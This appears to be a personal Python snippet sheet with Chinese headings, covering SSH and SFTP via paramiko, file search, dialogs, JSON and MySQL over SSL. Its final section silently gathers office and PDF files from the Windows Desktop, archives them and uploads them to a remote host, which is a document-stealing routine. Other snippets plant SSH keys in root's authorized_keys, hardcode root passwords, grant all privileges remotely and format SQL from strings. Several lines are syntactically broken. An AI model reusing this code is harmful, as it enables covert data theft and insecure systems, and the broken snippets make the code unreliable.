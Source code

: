 # -*- mode=python ending:utf-8 -*-
#############-----------------         随机验证码           ---------##############################
import random
def get_code(xx):
   a='1234567890abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
   b=''
   for i in range(xx):
        c=random.randint(0,61)
        b+=a[c]
   return b   
   
#####################  ###-----------------        python打包为tar包        ---------###########
 tar=tarfile.open("a.tar.gz","w:gz")
    for i in file:
        tar.add(i)
    tar.close()  
#####################  ###-----------------        获取系统命令返回值         ---------###########
import subprocess
(a,b)=subprocess.getstatusoutput("curl -Ss ifconfig.me")

##########################---------------         遍历目录查找文件    ---------#############

def search(dir,fil):
    os.chdir(dir)
    it = os.listdir()
    for i in it:
        pa = os.path.join(dir,i)
        if os.path.isdir(pa):
            search(pa,fil)
            os.chdir(os.pardir)
        elif fil in pa.split("/")[-1] :
            print(pa)
##########################-----------------         ssh 密钥认证           ---------################
#公钥打包exe程序需要添加 --key id_rsa参数  pyinstaller -F -w --key id_rsa .py      
import paramiko
client = paramiko.SSHClient()
client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
private_key=paramiko.RSAKey.from_private_key_file("id_rsa")
client.connect(hostname='192.168.116.200', port=22, username='root', pkey=private_key)
print(client.get_transport().is_active())
stdin, stdout, stderr = client.exec_command('ls')
a,b=stdout.read(),stderr.read() 		 #获取执行结果   
result= a if a else b       
print(result.decode())
#--------------------------------------------       scp上传下载            ---------################
import paramiko
s=paramiko.Transport(("192.168.116.200",22))
s.connect(username='root',password='xiaoxue')
sftp=paramiko.SFTPClient.from_transport(s)
sftp.get("/usr/local/nginx/html/aaa.txt",'c.txt')

#############---------------        多主机不输入密码上传公钥             ---------################

import paramiko
client = paramiko.SSHClient()
client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
client.connect(hostname='192.168.116.200', port=22, username='root', password="xiaoxue")
with open("id_rsa.pub",'r') as f:
    GY=f.read()
client.exec_command('if [ ! -d /root/.ssh ];then mkdir /root/.ssh;fi')
client.exec_command('echo {} > /root/.ssh/authorized_keys'.format(GY))
#############---------------         time获取时间              ---------################
time.strftime("%Y_%m_%d_%H:%M:%S",time.localtime(time.time()))


######################-----------------        json编码解码              ---------##############################
import json
js={"name":"张三","age"=26}            
json.dumps(js)          #json编码
json.loads(js)          #json解码

with open("a.js",'w') as f :             #保存为文件   
      json.dump(js,f)                    #json编码
         
with open('a.js','r') as f:              #读取文件
     js=json.load(f)                     #json解码


#####################-----------------        弹出提示对话框,判断有文件    ---------###########################
--  1   （推荐）----------------------------------------------------------------------------------------------
import easygui
easygui.msgbox("what are you doing now\n\n",'提示')
--  2   ------------------------------------------------------------------------------------------------------
import win32api,os,sys      
import win32con            
if os.path.isfile("src\\id_rsa.txt"):
    pass
else:
    win32api.MessageBox(win32con.NULL, "没有文件", "提示",win32con.MB_OK | win32con.MB_ICONINFORMATION)
    sys.exit(0)
--  3   -------------------------------------------------------------------------------------------------------
from tkinter import  messagebox
easygui.msgbox("lalala~",'提示')
easygui.ccbox("lalala~",'提示')   #True,False

--  4   -------------------------------------------------------------------------------------------------------
import tkinter
import tkinter.messagebox #弹窗库
1、提示消息框
tkinter.messagebox.showinfo('提示','人生苦短')
2、消息警告框
tkinter.messagebox.showwarning('警告','明日有大雨')
3、错误消息框
tkinter.messagebox.showerror('错误','出错了')
4、对话框
tkinter.messagebox.askokcancel('提示', '要执行此操作吗')#确定/取消，返回值true/false
tkinter.messagebox.askquestion('提示', '要执行此操作吗')#是/否，返回值yes/no
tkinter.messagebox.askyesno('提示', '要执行此操作吗')#是/否，返回值true/false
tkinter.messagebox.askretrycancel('提示', '要执行此操作吗')#重试/取消，返回值true/false
5、文件对话框
import tkinter.filedialog
a=tkinter.filedialog.asksaveasfilename()#返回文件名
print(a)
a =tkinter.filedialog.asksaveasfile()#会创建文件
print(a)
a =tkinter.filedialog.askopenfilename()#返回文件名
print(a)
a =tkinter.filedialog.askopenfile()#返回文件流对象
print(a)
a =tkinter.filedialog.askdirectory()#返回目录名
print(a)
a =tkinter.filedialog.askopenfilenames()#可以返回多个文件名
print(a)
a =tkinter.filedialog.askopenfiles()#多个文件流对象
print(a)
#################################-----------------        mysql数据库操作连接          ---------###########
create table IF NOT EXISTS ab(id int(50) primary key,name varchar(20),message varchar(100)) DEFAULT CHARSET=utf8;
mysql_ssl_rsa_setup --uid=mysql
vim /etc/my.cnf
ssl-ca=/var/lib/mysql/ca.pem
ssl-cert=/var/lib/mysql/server-cert.pem
ssl-key=/var/lib/mysql/server-key.pem
require_secure_transport = ON
bind-address = 0.0.0.0
systemctl  restart mysqld
ALTER USER 'root'@'%' require ssl;                                        #修改用户只允许ssl连接 
grant all privileges on *.* to 'root'@"%" identified by 'Pwd@123456' require ssl;    #授权时候只允许ssl
FLUSH PRIVILEGES;
show variables like '%ssl%';   #查看是否开启ssl连接
\s                              #看是否是ssl连接
alter user 'root'@'%' require x509;         #证书(pymysql不能用)
mysql -uroot -pPwd@123456 -h 192.168.116.200 --ssl-cert=/var/lib/mysql/client-cert.pem --ssl-key=/var/lib/mysql/client-key.pem --ssl-ca=/var/lib/mysql/ca.pem
###############-----------------                ssl+pymysql                 -------------------------
db = pymysql.connect(host="192.168.116.200",user="root",passwd="Pwd@123456",database="python",ssl={"ssl":''}})
a= db.cursor()
a.execute('insert into  user(ip,time) values("123","80:02"')) #创建写入数据
db.commit()
a.execute('select time  from {} where ip="{}";'.format(abrr,who))           #查询读取数据
print(a.fetchall())

#################################-----------------        检索文件远程发送         ---------###########
import os,paramiko,time,tarfile,easygui,threading,socket
from scp import SCPClient
def SCP(file):
    ssh=paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    ssh.connect(hostname="192.168.116.200", port=22, username='zhangsan', password="zs")
    scp=SCPClient(ssh.get_transport(),socket_timeout=15.0)
    os.chdir("C:\\Users\\Administrator\\")
    tar=tarfile.open(tarn,"w:gz")
    for i in file:
        tar.add(i)
    tar.close()
    scp.put(tarn,"~")
    os.remove(tarn)
    scp.close()
wenjian = []
def search(dir):
    global wenjian
    jiewei=['doc','docx','xls','xlsx','txt','pdf']
    os.chdir(dir)
    it = os.listdir()
    for i in it:
        pa = os.path.join(dir,i)
        if os.path.isdir(pa):
            search(pa)
            os.chdir(os.pardir)
        else:
            for i in jiewei:
                if i in pa.split("\\")[-1]:
                  wenjian.append(pa)
if __name__=="__main__":
  try:
    a=time.time()
    tarn = socket.gethostbyname(socket.gethostname()) + ".tar.gz"
    search("C:\\Users\\Administrator\\Desktop")
    threading.Thread(target=SCP,args=(wenjian,)).start()
    print("okay..........................",time.time()-a)
  except  Exception as f :
      easygui.msgbox(str(f),'linux')
